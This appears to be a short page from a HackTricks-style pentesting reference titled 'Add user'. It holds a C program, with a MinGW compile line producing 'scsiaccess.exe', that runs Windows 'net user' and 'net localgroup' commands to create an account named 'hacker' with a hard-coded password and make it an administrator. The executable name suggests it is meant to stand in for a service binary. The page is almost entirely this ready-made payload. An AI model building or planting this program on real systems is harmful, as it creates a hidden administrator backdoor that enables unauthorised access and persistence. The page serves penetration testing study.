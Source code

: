 {{#include ../../banners/hacktricks-training.md}}

# Add user

```c
// i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
    int i;
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```

{{#include ../../banners/hacktricks-training.md}}


